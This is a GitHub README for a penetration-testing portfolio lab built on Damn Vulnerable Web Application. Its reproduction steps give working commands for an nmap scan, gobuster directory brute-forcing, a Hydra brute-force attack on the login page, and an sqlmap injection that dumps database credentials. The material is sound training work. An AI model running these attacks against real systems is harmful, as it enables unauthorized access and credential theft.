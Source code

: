 DVWA Penetration Testing Lab

A hands-on penetration testing project built to simulate a real-world attack/defense environment using Damn Vulnerable Web Application (DVWA).
Configured and executed on a controlled lab network to practice ethical hacking techniques and demonstrate practical cybersecurity skills.


🎯 Objective


	•	Build a contained penetration testing lab to practice ethical hacking techniques.
	•	Simulate a full attack lifecycle from reconnaissance to exploitation and  post-exploitation.
	•	Demonstrate proficiency with industry-standard tools and document results professionally

🔧 Features
	•	Reconnaissance
	•	Nmap scan for open ports and service enumeration
	•	Gobuster directory brute-forcing
	•	Exploitation
	•	Hydra brute-force attack on DVWA login
	•	Manual and automated SQL Injection (SQLMap)
	•	Post-Exploitation
	•	Extracting DVWA database user credentials
	•	Saving and documenting exploitation results
	•	Documentation
	•	Sanitized DVWA configuration file
	•	Step-by-step attack methodology
	•	Screenshots for every major phase

----

📂 Repository Structure

dvwa-penetration-testing-lab
├── attack-scripts       # Output logs from tools
│   ├── gobuster_scan.txt
│   ├── hydra_bruteforce.txt
│   ├── nmap_scan.txt
│   └── sqlmap_dump.txt
├── configs              # Sanitized config files
│   └── dvwa-config.sample.php
├── docs                 # Attack methodology & notes
│   └── attack-steps.md
├── screenshots          # Evidence (IPs blurred)
└── README.md

----
🧪 How to Reproduce

1.	Set up DVWA
	•	Deploy DVWA on Parrot/Kali or any Debian-based VM
	•	Configure database credentials in dvwa-config.php

2.	Recon

nmap -sV <target-ip> -oN attack-scripts/nmap_scan.txt
gobuster dir -u http://<target-ip>/ -w /path/to/wordlist -o attack-scripts/gobuster_scan.txt

---

3. Brute Force

hydra -l admin -P /path/to/wordlist http://<target-ip>/dvwa/login.php -V -o attack-scripts/hydra_bruteforce.txt

---

4. SQL Injection

sqlmap -u "http://<target-ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session-id>; security=low" \
  --batch --level=5 --risk=3 --dump -o attack-scripts/sqlmap_dump.txt
---

5. Evidence Collection

	•	Save all tool outputs in attack-scripts/.
	•	Capture relevant screenshots with IPs sanitized.
	•	Write up findings in docs/attack-steps.md.

---
📌 Use Case

This project simulates real-world penetration testing methodology for learning and portfolio building.
It covers all key phases — Reconnaissance, Exploitation, and Post-Exploitation — in a safe, legal lab.

---

🖥️ Requirements

	•	DVWA installed on a Debian-based environment
	•	Kali/Parrot OS with:
	•	Nmap
	•	Gobuster
	•	Hydra
	•	SQLMap

---

📄 License

MIT License – free to use, share, and modify with attribution.

---

👤 Author

Amir Nejad
LinkedIn • GitHub



